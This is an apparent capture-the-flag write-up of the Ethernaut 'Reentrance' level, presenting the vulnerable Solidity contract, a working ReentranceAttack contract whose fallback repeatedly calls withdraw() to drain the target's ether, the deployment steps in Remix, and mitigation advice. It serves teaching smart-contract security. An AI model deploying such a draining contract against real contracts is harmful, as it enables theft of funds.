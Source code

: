 +++
title = "Reeintrancy - Ethernaut"
date = "2022-02-01"
author = "DimitrisV && Stavros Gkinos"
+++
On this challenge, we will learn how the infamous DAO occured and how to prevent such an incident to occur again. Ethereum splitted into two Blockchains, Ethereum and Ethereum Classic because of a DAO Attack.
So we have this smart-contract and we have to withdraw all of it's ether:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```
Re-entrancy happens in single-thread computing environments, when the execution stack jumps or calls subroutines, before returning to the original execution.
Firstly, we create a smart-contract called ReentranceAttack.sol with which we are going to attack the main smart-contract shown above:

```
// SPDX-License-Identifier: MIT

pragma solidity ^0.6.10;

import './Reentrance.sol';

contract ReentranceAttack {

  Reentrance target;
  uint public amount = 1 ether;

  constructor(address payable _targetAddr) public payable {
    target= Reentrance(_targetAddr);
  }

  function donateToTarget() public {
    target.donate.value(amount).gas(4000000)(address(this));   }

  fallback() external payable {
    if (address(target).balance !=0){
      target.withdraw(amount);
    }
  }
}
```

We need to take into account these two criterias:
* Fallback functions can be called by anyone and execute malicious code.
* Malicious external contracts can abuse withdrawals.

The expoitation was done by following these steps:

* We deploy ReentranceAttack.sol with a value of 1 ether and as an address parameter we input the Reentrance.sol address which we find from the console by typing "contract.address".
*  We donate 1 ether to the  Reentrance.sol  by calling the function donateToTarget() from the ReentranceAttack.sol in order to add ReentranceAttack.sol address into balances.

```
mapping(address => uint) public balances;
```
Now that we are into balances, we satisfy the requirement of withdraw() function.
* By using the Remix IDE, we trigger the fallback() function from the ReentranceAttack.sol which calls the withdraw() function from the Reentrance.sol. Now the withdraw() function is called and we satisfy the requirement of it, it will call back the fallback() function of the ReentranceAttack.sol and this loop will continue until the balance of the Reentrance.sol is zero.
*
There are multiple ways to protect your smart-contract in order to prevent issues like DAO Attack to happen.
* The order of execution really matters in programming, specially in Solidity. If we have to take external function calls, making the call must be the last thing to do. Even better,if we can invoke transfer in a separate function.
* Include a mutex to prevent re-entrancy. For example we can create a Boolean lock variable or a binary variable to signal execution depth.
* When we have to use function modifiers to check invariants, we should be extremely careful as modifiers are executed at the start of the function. 
* Use transfer to move funds out of a smart-contract, as low level functions like call and send just return false but don't interrupt the execution flow when receiving contract fails.

---
If you want to learn more about Smart Contract Security, please check our paper and eCourses:
## Smart-Contract Security:

- [Smart Contract Security: Dimitris Vagiakakakos, Stavros Gkinos, Ioannis Karvelas](https://github.com/sv1sjp/eVoting_Elections_Decentralized_App/blob/main/smartcontract_security_paper.pdf)


* [Smart Contract Security - Educational YouTube Series in Greek - Click Here](https://www.youtube.com/playlist?list=PLZa7COjIxKWzLcMxI9cRNSzOtdR0xvXB7)
